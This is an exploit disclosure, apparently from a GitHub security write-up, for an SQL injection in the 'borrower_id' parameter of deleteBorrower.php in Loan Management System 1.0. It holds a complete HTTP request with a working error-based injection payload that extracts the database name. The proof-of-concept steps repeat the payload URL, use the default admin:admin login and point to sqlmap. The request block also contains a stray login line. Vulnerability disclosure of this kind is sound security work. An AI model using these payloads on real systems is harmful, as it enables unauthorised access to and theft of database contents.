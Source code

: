 

# Loan Management System - deleteBorrower.php 'borrower_id' SQL inject

#### Exploit Title: Loan Management System - deleteBorrower.php 'borrower_id' SQL inject

#### Exploit Author: [webraybtl@webray.com.cn](mailto:webraybtl@webray.com.cn) inc

#### Vendor Homepage: https://www.sourcecodester.com/php/15529/loan-management-system-oop-php-mysqlijquery-free-source-code.html

#### Software Link:https://www.sourcecodester.com/php/15529/loan-management-system-oop-php-mysqlijquery-free-source-code.html

#### Version: Loan Management System 1.0

#### Tested on: Windows Server 2008 R2 Enterprise, Apache ,Mysql

#### Description

The reason for the SQL injection vulnerability is that the website application does not verify the validity of the data submitted by the user to the server (type, length, business parameter validity, etc.), and does not effectively filter the data input by the user with special characters , so that the user's input is directly brought into the database for execution, which exceeds the expected result of the original design of the SQL statement, resulting in a SQL injection vulnerability.Loan Management System does not filter the content correctly at the "deleteBorrower.php/borrower_id" parameter, resulting in the generation of SQL injection.

#### Payload used:

```POST /login.php HTTP/1.1
GET /deleteBorrower.php?borrower_id=1'%20AND%20GTID_SUBSET(CONCAT("data:",database()),8194)--%20GZSp HTTP/1.1
Host: 192.168.67.11:8091
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/119.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://192.168.67.11:8091/borrower.php
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=bes3u5nf3elraj4jtmpnaoac0n
Connection: close
```

#### Proof of Concept

1、Log in to the system using the default password admin: admin

2、Add a piece of data on the Borrower page

![image](https://github.com/joinia/webray.com.cn/blob/main/Loan-Management-System/images/browsersql1.png)

3、Click 'delete' and grab the package, locate the file as' deleteBrower.php '.Looking at the source code, it is found that the borrower_id field is directly brought into the SQL statement query without filtering

![image](https://github.com/joinia/webray.com.cn/blob/main/Loan-Management-System/images/browsersql2.png)

4、We can construct SQL statements to query the name of the database

payload:`http://xxxx/deleteBorrower.php?borrower_id=1'%20AND%20GTID_SUBSET(CONCAT("data:",database()),8194)--%20GZSp`

![image](https://github.com/joinia/webray.com.cn/blob/main/Loan-Management-System/images/browsersql3.png)

5、Testing using the sqlmap tool can also detect SQL injection vulnerabilities

![image](https://github.com/joinia/webray.com.cn/blob/main/Loan-Management-System/images/browsersql4.png)
